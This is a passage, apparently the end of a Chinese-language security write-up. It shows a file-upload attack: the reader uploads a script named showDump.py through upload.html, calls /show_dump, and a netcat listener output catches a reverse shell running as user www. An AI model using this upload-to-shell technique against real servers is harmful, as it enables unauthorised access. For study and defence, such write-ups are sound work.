 将上述文件保存，然后通过 `upload.html` 上传，新文件名填写 `showDump.py`，然后访问 `/show_dump` 接口

 测试成功

```shell
➜  nc -v -l 12345
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(www) gid=1000(www) groups=1000(www)
$ ls -lh /home/www/code
total 44K
-rwxr-xr-x 1 www www  13K Dec 19 14:22 httpServer.py
-rw-r--r-- 1 www www  276 Dec 20 02:41 log.txt
-rwxr-xr-x 1 www www  356 Dec 20 02:40 showDump.py
-rwxr-xr-x 1 www www  487 Dec 19 10:12 upload.html
```



